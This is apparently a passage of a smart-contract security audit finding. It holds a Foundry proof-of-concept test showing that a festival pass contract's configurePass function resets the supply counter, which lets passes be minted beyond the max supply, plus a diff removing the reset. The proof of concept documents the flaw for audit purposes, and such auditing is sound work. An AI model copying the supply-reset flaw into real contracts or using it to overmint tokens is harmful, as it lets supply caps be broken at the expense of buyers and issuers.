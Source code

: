 ```solidity

        // Step 3: Try to buy another pass - should fail
        address user3 = makeAddr("user3");
        vm.deal(user3, 10 ether);
        vm.prank(user3);
        vm.expectRevert("Max supply reached");
        festivalPass.buyPass{value: GENERAL_PRICE}(1);

        // Step 4: VULNERABILITY - Organizer reconfigures the pass
        // This resets passSupply[1] to 0, bypassing the supply cap!
        vm.prank(organizer);
        festivalPass.configurePass(1, GENERAL_PRICE, 2);

        // Step 5: Now we can buy more passes even though max supply was already reached
        vm.prank(user3);
        festivalPass.buyPass{value: GENERAL_PRICE}(1);

        // Step 6: We can even buy more passes beyond the original max supply
        vm.deal(user4, 10 ether);
        vm.prank(user4);
        festivalPass.buyPass{value: GENERAL_PRICE}(1);

        // Step 7: Verify the vulnerability - total supply exceeds max supply
        assertEq(festivalPass.passSupply(1), 2); // Current supply counter
        assertEq(festivalPass.passMaxSupply(1), 2); // Max supply limit

        // But we actually have 4 passes minted in total!
        assertEq(festivalPass.balanceOf(user1, 1), 1);
        assertEq(festivalPass.balanceOf(user2, 1), 1);
        assertEq(festivalPass.balanceOf(user3, 1), 1);
        assertEq(festivalPass.balanceOf(user4, 1), 1);

        // Total minted: 4 passes, but max supply is only 2!
        uint256 totalMinted = festivalPass.balanceOf(user1, 1) + festivalPass.balanceOf(user2, 1)
            + festivalPass.balanceOf(user3, 1) + festivalPass.balanceOf(user4, 1);

        assertGt(totalMinted, festivalPass.passMaxSupply(1), "VULNERABILITY: Total minted exceeds max supply!");
    }
```

## Recommended Mitigation:

The `passSupply` reset should be removed

```diff
function configurePass(uint256 passId, uint256 price, uint256 maxSupply) external onlyOrganizer {
    require(passId == GENERAL_PASS || passId == VIP_PASS || passId == BACKSTAGE_PASS, "Invalid pass ID");
    require(price > 0, "Price must be greater than 0");
    require(maxSupply > 0, "Max supply must be greater than 0");

    passPrice[passId] = price;
    passMaxSupply[passId] = maxSupply;

-     passSupply[passId] = 0; 
}
```
